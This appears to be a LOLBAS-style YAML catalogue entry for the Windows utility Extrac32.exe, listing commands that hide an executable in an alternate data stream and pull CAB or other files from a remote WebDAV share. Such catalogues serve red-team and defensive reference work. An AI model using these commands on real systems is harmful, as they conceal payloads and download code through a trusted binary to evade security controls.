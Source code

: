 ---
Name: Extrac32.exe
Description: Add ADS, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: 'Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.'
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: 'Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.'
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: 'Copy the source file to the destination file and overwrite it.'
Full Path:
  - c:\windows\system32\extrac32.exe
  - c:\windows\sysWOW64\extrac32.exe
Code Sample: []
Detection: []
Resources:
  - https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to Oddvar Moe - @oddvarmoe, egre55 - @egre55

